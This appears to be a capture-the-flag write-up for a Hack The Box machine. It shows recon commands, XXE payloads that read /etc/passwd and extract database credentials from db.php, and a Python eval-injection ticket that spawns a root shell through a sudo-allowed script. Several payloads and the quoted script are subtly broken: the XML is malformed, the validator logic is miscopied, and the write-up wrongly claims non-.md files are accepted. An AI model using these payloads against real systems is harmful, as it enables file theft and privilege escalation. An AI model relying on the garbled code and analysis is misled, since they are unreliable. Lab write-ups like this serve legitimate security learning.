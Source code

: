 <h2>HTB - Bughunter (easy)</h2>  
**bug**: xxe  

**nmap**  
``sudo nmap -sVC -p- -v -Pn -T5 rhost -oN nmap

**dir enum**  
``ffuf -u https://rhost/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.html,.txt,.js

![[Pasted image 20250505192056.png]]

go to https://rhost/portal.php    
check sources  
click https://rhost/log_submit.php  
open burp, capture request on submit  
you can see POST request to /tracker_diRPrOOf314.php  
check data to inspector  
the data is base64 and url encoded   

![[Pasted image 20250505191745.png]]

----
<h3>exploitation thru XXE</h3>   
capture POST request   
https://rhost/tracker_diRPrOOf314.php  
you can see XML format being rendered in frontend  
the `title` (entity) including its values are reflected  

**(encoding)**   
use Hackverter ext on burp suite  
select Encode tab  
select urlencode and base64  
  
  
**sensitive file read XXE**  
change the requested XML with this edited request  

```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "file:///etc/passwd">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505191530.png]]


**getting admin creds thru XXE php filtering wrapper**  
we can get the admin creds thru the ``db.php`` that we found on thru the directory bruteforce
data:  
```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505192735.png]]

copy the td and go to terminal  
echo "the td data type shit" | base64 -d  
connect to the machine with SSH  

----
<h3>finding privesc path</h3>  

the user ``development`` has user privilege  
run ``sudo -l`` to check it  
now you can see a script that requrires ``NOPASSWD`` to run  

![[Pasted image 20250506105932.png]]

TicketValidator.py python script:  
```
#!/usr/bin/env python3

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for irregularities.
    code_line = None
    for i, x in enumerate(ticketFile.readlines()):
        if not x.startswith("# Skytrain Inc"):
            return False
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {''.join(x.strip().split(' ')[2:])}")
            continue
        if x.startswith("# Ticket Code: "):
            code_line = i+1
            continue
        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("*")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
            return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

**flaws in the script**  
the script asks for a `.md` for tickets, but it still continues even if it's not `.md`  
so we can craft even a `.txt` file to act like a ticket and feed it to the script  
  
here's what i came up with  
```
# Skytrain Inc
## Ticket to Anywhere
# Ticket Code:
**__import__('os').system('/bin/sh')**
```

what it does is,   
it gives the script the minimum requirements it asks for tickets to be valid   
Line 1: `# Skytrain Inc` satisfies the first-line check.  
Line 2:` ## Ticket` to Anywhere meets the second-line requirement (the destination can be anything).  
Line 3: `# Ticket Code`: indicates the next line is the ticket code.  
Line 4: ``**__import__('os').system('/bin/sh')**`` is the payload.  

after that, it executes the `bin/sh` to spawn a root shell to the target machine
**VOILA! BountyHunter  has been PWNED!**    